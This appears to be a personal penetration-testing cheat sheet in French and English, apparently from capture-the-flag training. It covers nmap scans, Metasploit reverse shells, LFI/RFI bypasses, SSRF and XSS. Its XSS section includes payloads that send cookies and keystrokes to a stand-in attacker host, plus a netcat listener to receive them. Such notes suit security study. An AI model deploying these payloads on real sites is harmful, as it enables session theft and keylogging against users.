 Reconnaissance :
 * NMAP scan :
    * TCP connect : `-sT` -> respond with RST or SYN/ACK. Bad with firewall (packets dropped)
    * SYN scan : `-sS` -> stealth, faster
    * NULL : `-sN` -> stealth, respond with RST if closed
    * FIN : `-sF` -> stealth, respond with RST if closed
    * XMAS : `-sX`-> stealth, respond with RST if closed
    * UDP : `-sU` -> open|filtered
    * ICMP : `-sn` -> network discovery
    * Firewall evasion : `-Pn` ->  not ping before scan
    * Firewall spot : `--badsum`-> if response it has firewall
    * Vuln scan : `nmap -Pn --script vuln` ou `-sV --script vulscan/vulscan.nse` ou `-sV --script nmap-vulners/` 
 * Exporter pour searchsploit : `nmap [...] -oX result.xml`
 * Gobuster :

Metasploit :
 * Chercher l'exploit -> mettre les options (RHOSTS, LHOST, LPORT) -> mettre un payload (windows/x64/shell/reverse_tcp) -> faire un reverse meterpreter (shell_to_meterpreter)
 Meterpreter :
   * Upload un fichier : `upload <path host>`
   * Avoir powershell : `load powershell` + `powershell_shell`
   

 SMB :
 * Enumerate share `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>`
 * Port : 139/445


 Searchsploit :
 * Chercher un titre : `searchsploit -t <titre>`
 * Importer les résultats de nmap : `searchsploit -x --nmap result.xml`

 Web exploring :
 * Robots.txt
 * Source code (comments, js)
 * Favicon to get framework (https://wiki.owasp.org/index.php/OWASP_favicon_database)
 * Subdomain : dnsrecon (dns bruteforce), Sublist3r, Certs (https://crt.sh)
 * Brute force a lot of things : ffuf & `/usr/share/seclists` lists
 * IDORs : chercher avec les IDs des comptes si on peut swap, et chercher les dev paths non référencés
 * LFI (local file inclusion) : 
   * when using get.php, function file_get_contents 
   * When using include in php code, we can use it to access other files. When seeing ?<function>=<path>.php, we can use the ../ attack
   * If adding some extension at the end (.php for ex) : use %00 or 0x00 (NULL BYTE) to cut off extension. Not working for PHP 5.3.4 and above
   * if filtering, can use "....//" instead of "../"
 * RFI (remote file inclusion) :
   * Need "allow_url_fopen" be on
   * Same as LFI
 * SSRF : Server-side Request Forgery
   * Full URL used, partial url or path of url
 * XSS :
   * Reflected : When putting XSS in the request, work when sending link to victim
   * Stored : stored in the web app
   * DOM based : Use DOM to attack
   * Blind : Same as stored but can't test it (ex : messages). Tool : https://github.com/mandatoryprogrammer/xsshunter-express
   * CheatSheet :
     * Session stealing : `fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));`
     * Key logger : `document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}`
     * When using in HTML : close tag and then put the script `<script>alert('THM');</script>`
     * With JS : Use `//` to comment the EOL and then execute the code
     * Polyglot XSS : all in one bypass filters/tags/attributes
     * To receive information : use netcat in attack machine `nc -nplv <port>`and then send payload like this `</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
     * https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  * Command injection :
    * Cheatsheet : https://github.com/payloadbox/command-injection-payload-list
  * SQL injection :
    * 
 * Cloud environment : 
   * IP with sensitive environment : 169.254.169.254

 Hash :
  * Crackstation.com

Usefull tools :
 * https://pipedream.com

 s 
